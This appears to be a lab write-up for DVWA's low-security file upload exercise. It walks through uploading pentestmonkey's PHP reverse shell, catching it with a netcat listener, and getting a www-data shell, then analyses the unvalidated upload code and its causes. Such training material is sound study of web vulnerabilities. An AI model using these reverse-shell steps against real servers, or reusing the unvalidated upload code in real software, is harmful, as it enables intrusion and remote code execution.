 # File Upload - Low

---

## Attack Steps

1. Open the target page in the browser:
    - http://<ip address>/dvwa/vulnerabilities/upload

2. Open a terminal 
    - Use PowerShell

3. Download or copy php-reverse-shell.php into a local folder (e.g., Downloads)
    
    - https://github.com/pentestmonkey/php-reverse-shell

4. Edit the `php-reverse-shell.php` webshell using notepad or VS Code

    - Change the IP address 
    ```bash 
    $IP = '192.168.56.102'; # Example IP address
    ```

5. Save and exit 

6. On the target page, upload the webshell 

7. Use Netcat for Windows: nc.exe -lvnp 1234 (must be in PATH or same folder)

    ```bash 
    nc.exe -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

7. Navigate to the uploaded webshell 

    - The uploaded file was saved to `http://localhost/dvwa/hackable/uploads/php-reverse-shell.php`

    - Alternatively run `Invoke-WebRequest -Uri http://localhost/dvwa/hackable/uploads/php-reverse-shell.php -UseBasicParsing` in another terminal 

8. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`C:\xampp\htdocs\DVWA\vulnerabilities\upload\source\low.php`

#### Key Vulnerability Points:

```php 
 <?php
    if (isset($_POST['Upload'])) {

            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            $target_path = $target_path . basename( $_FILES['uploaded']['name']);

            if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                
                echo '<pre>';
                echo 'Your image was not uploaded.';
                echo '</pre>';
                
              } else {
            
                echo '<pre>';
                echo $target_path . ' succesfully uploaded!';
                echo '</pre>';
                
            }

        }
?> 
```

### Explanation

- The code takes the uploaded file directly from the user without validation or sanitisation:

    ```php 
    $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
    $target_path = $target_path . basename($_FILES['uploaded']['name']);
    ```
- The file is then moved to a web accessible upload directory 

    ```php 
    move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)
    ```

- This allows an attacker to upload any file, including malicious scripts in this case PHP

- An attacker can exploit this by uploading a webshell e.g. shell.php
- This can be executed remotely as its accessible via a browser or using `curl`

- Causes: 
    - No validation or sanitization of the uploaded filename or file content, so users can upload anything.

    - No restrictions on allowed file types or extensions.

    - Upload directory is directly accessible via the web, allowing execution of uploaded scripts.

    - Lack of checks like MIME type verification, file extension whitelisting, or scanning for malicious content.
